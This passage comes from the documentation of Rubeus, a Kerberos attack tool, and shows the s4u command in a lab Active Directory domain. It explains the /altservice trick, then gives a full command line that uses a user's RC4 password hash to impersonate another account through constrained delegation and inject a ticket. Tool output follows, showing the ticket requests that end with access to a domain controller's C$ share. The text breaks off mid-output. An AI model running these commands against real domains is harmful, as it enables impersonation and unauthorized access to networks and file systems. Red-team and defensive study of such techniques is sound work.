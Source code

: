     v1.3.3

    [*] Action: S4U

    [*] Loaded a TGS for TESTLAB.LOCAL\dfm.a@TESTLAB.LOCAL
    [*] Impersonating user 'dfm.a@TESTLAB.LOCAL' to target SPN 'ldap/PRIMARY.testlab.local'
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2proxy request for service: 'ldap/PRIMARY.testlab.local'
    [*] Sending S4U2proxy request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 2641 bytes
    [*] Received 1829 bytes
    [+] S4U2proxy success!
    [*] base64(ticket.kirbi) for SPN 'ldap/PRIMARY.testlab.local':

        doIGujCCBragAwIBBaEDAgEWoo..(snip)..

Where `/ticket:X` is the TGT returned in the first step, and `/tgs` is the S4U2self ticket. Injecting the resulting ticket (manually with [Rubeus.exe ptt /ticket:X](#ptt) or by supplying the `/ptt` flag to the **s4u** command) will allow you access the **ldap** service on primary.testlab.local _as if you are dfm.a_. 

The `/altservice` parameter takes advantage of [Alberto Solino](https://twitter.com/agsolino)'s great discovery about [how the service name (sname) is not protected in the KRB-CRED file](https://www.coresecurity.com/blog/kerberos-delegation-spns-and-more), only the server name is. This allows us to substitute in any service name we want in the resulting KRB-CRED (.kirbi) file. One or more alternate service names can be supplied, comma separated (`/altservice:cifs,HOST,...`).

Let's expand on the previous example, forging access to the filesystem on **primary.testlab.local** by abusing its constrained delegation configuration and the alternate service substitution. Let's package it all into one step as well, performing a TGT request, S4U2self process, S4U2proxy execution, and injection of the final ticket:

    C:\Rubeus>dir \\primary.testlab.local\C$
    Access is denied.

    C:\Rubeus>Rubeus.exe s4u /user:patsy /rc4:2b576acbe6bcfda7294d6bd18041b8fe /impersonateuser:dfm.a /msdsspn:"ldap/PRIMARY.testlab.local" /altservice:cifs /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\patsy'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1377 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):
